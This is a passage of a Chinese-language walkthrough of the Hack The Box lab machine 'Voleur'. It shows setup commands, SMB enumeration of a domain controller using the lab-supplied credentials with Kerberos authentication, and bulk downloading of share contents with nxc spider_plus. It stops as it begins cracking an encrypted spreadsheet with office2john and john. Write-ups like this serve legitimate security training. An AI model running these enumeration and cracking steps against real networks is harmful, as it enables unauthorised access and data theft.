   
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2ILKy0oho5qib3ibswMNzr1XRVcgicqENvjMzcKOzkFBo4TFucT4EesmsibWe31uLBC0NGDTzGO38A6zw/640?wx_fmt=png&from=appmsg "null")  
  
  
IP 域名添加到 hosts 中  

```
echo '10.10.11.76 voleur.htb dc.voleur.htb' >> /etc/hosts
```

  
同步一下时钟，避免时钟偏差导致 kerberos 认证失败  

```
ntpdate 10.10.11.76
```

# 二、漏洞探测  
### SMB 泄露敏感文件  
  
靶场给了个初始凭证 
```
ryan.naylor / HollowOct31Nyt
```

  
，先尝试探测 SMB  

```
nxc smb dc.voleur.htb -u 'ryan.naylor' -p 'HollowOct31Nyt' # 失败
nxc smb dc.voleur.htb -u 'ryan.naylor' -p 'HollowOct31Nyt' -k     # 成功
```

  
目标禁用了 ntlm 协议，加上
```
-k
```

  
参数使用 kerberos 协议认证成功  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2ILKy0oho5qib3ibswMNzr1XR7oE2lYEqmU2n5fF4cPs7RiaGbahJE2jJ9BRrCrIrXzMZEAJp3SVJznA/640?wx_fmt=png&from=appmsg "null")  
  
  
爬取下载共享文件  

```
nxc smb dc.voleur.htb -u 'ryan.naylor' -p 'HollowOct31Nyt' -k -M spider_plus -o DOWNLOAD_FLAG=True
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2ILKy0oho5qib3ibswMNzr1XRQmagDIrtUzbT6GRUaSvYYEAwVQmHGyGM7DKvESic0wicc0MDuOBwYnGg/640?wx_fmt=png&from=appmsg "null")  
  
  
共享中有一个 Access_Review.xlsx 文件，打开发现有加密  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2ILKy0oho5qib3ibswMNzr1XR9AXVlTpw6dRibwxdBlUcthKQpTVnJSc4bbUlK3blpzd5KYMfO8rxiaLQ/640?wx_fmt=png&from=appmsg "null")  
  
  
用 office2john 转成哈希，再用 john 破解  

